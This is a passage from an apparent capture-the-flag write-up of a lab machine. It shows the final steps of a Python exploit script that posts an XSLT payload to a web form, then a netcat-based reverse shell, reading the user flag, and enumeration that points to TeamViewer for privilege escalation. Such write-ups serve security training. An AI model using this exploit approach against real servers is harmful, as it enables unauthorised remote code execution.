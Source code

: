 ~~~
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
~~~
{: .language-python}

Starting a python3 web server, and opening a netcat listener then running the exploit gives me an initial shell.

![Shell](https://jackhack.se/assets/images/remote/shell.png)
{: .full}

Getting **user.txt**
~~~
PS C:\Users\Public> more user.txt
more user.txt
1ea16------------------cf8b44187

PS C:\Users\Public>
~~~

# Root

After some time enumerating the box and checking my privileges i found out that the popular remote access tool TeamViewer was installed on the box, thinking about the name of the box i thought this would be the way to escalate privilees

~~~
PS C:\> cd "Program Files (x86)"
cd "Program Files (x86)"
PS C:\Program Files (x86)> dir
dir


    Directory: C:\Program Files (x86)


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        9/15/2018   3:28 AM                Common Files                                                          
d-----        9/15/2018   5:06 AM                Internet Explorer                                                     
d-----        2/23/2020   2:19 PM                Microsoft SQL Server                                                  
d-----        2/23/2020   2:15 PM                Microsoft.NET                                                         
d-----        2/19/2020   3:11 PM                MSBuild                                                               
d-----        2/19/2020   3:11 PM                Reference Assemblies                                                  
d-----        2/20/2020   2:14 AM                TeamViewer                                                            
d-----        9/15/2018   5:05 AM                Windows Defender                                                      
d-----        9/15/2018   3:19 AM                Windows Mail                                                          
~~~